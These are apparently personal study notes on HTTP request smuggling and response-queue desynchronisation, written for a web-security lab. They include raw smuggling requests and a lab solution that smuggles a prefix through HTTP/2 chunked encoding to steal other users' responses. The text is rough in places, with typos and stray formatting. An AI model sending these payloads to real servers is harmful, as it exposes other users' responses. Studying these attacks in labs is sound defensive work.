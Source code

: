 ```js
\r\n
```
**Back-end(TE)**
```js
`POST / HTTP/1.1\r\n  
Host: vulnerable-website.com\r\n  
Content-Type: x-www-form-urlencoded\r\n  
Content-Length: 61\r\n  
Transfer-Encoding: chunked\r\n  
\r\n  
0\r\n  
\r\n  
```
```js
GET /anything HTTP/1.1\r\n  
Host: vulnerable-website.com\r\n  
\r\n 
```
```js
GET / HTTP/1.1\r\n  
Host: vulnerable-website.com\r\n  
\r\n
```
it sees 3 difrent/complete request
- note no invlid request hitting back-end

## Desynchronizing Response queue
- Front-end correctly maps the response to the initial `wrapper` rewuest and forward this to client, as there are no further request awaiting a response, the second response is held in queue
- when another request hit the back-end, the response in the queue send to the client and resposne from thet client will be taking in queue
- This lead to staling other user's responses.

![[http-Desync-attack.png]]

``
To make it easier to differentiate stolen responses from responses to your own requests, try using a non-existent path in both of the requests that you send. That way, your own requests should consistently receive a 404 response, for example.``

**EG.Soln**
-   Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.
    
   ```
   POST / HTTP/2  
   Host: YOUR-LAB-ID.web-security-academy.net  
   Transfer-Encoding: chunked  
     
   0  
     
   SMUGGLED  
```
    